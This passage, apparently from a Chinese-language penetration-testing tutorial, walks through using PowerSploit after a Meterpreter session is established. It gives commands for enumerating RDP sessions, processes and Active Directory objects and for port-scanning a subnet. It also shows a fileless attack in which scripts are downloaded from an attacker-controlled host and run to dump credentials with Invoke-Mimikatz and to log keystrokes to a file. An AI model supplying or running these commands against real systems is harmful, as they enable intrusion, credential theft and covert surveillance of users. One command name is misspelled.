 ```
Get-NetRDPSESSION  
#获取进程的详细信息
Get-NetProcess  
# 获取活动目录的信息
Get-ADOPJECT 
#判断用户是否登陆计算机且用户是否有管理员权限
invoke-processhunter
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvGdRyu817Px1TkInym3ibF4PpTAbTMvaqhKKc2Jibo5yHBnNm0kT68eIQ/640?wx_fmt=png)

```
iex(new-object net.webclient).downloadstring("http://192.168.1.4/PowerSploit/Recon/Invoke-Portscan.ps1")
```

**1.PowerSploit**  
    PowerSploit 是 PowerShell 模块的集合，kali 自带，输入 powersploit 即可。  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvIH8qv8zpCDxwYMLvubx0ZYgJDGMvZVgTqezMzTd2INIibicPsCNKKWXw/640?wx_fmt=png)  

项目地址：https://github.com/PowerShellMafia/PowerSploit  

**建立会话后的 meterpreter：**

```
#扫描网段、端口
invoke-portscan -hosts 192.168.1.1/24 -ports "21,22,80,139,80,445"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvfBuzB6eTq1m8KE5zwj14bPBFathXONfD4YqoE643l2juu4sZg0RaBQ/640?wx_fmt=png)  

**powersploit 无文件攻击  
**

将 powersploit 文件放在 vps 上面。确保目标服务器可以访问：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvSq425Eqyo0ic1GyTV63zlDcE9TlN3CntGGS4mqt08YDJJicrBl9XX27Q/640?wx_fmt=png)  

在目标机导入脚本：

```
#invoke-mimikatz抓取hash
iex(new-object net.webclient).downloadstring("http://192.168.1.4/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1")
#导hash
Invoke-Mimikatz -dumpcreds
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhv8H01KFJarZExKrgCibtghgKrGqTJLLpamXobUCwmRCcUYwHa1ox6ucg/640?wx_fmt=png)  

执行命令：

```
#get-keystrokes键盘记录
iex(new-object net.webclient).downloadstring("http://192.168.1.4/PowerSploit/Exfiltration/Get-Keystrokes.ps1")
#将键盘记录保存到123.txt里面
Get-Keystrokes -logpath C:\\Users\\admin\\123.txt
```
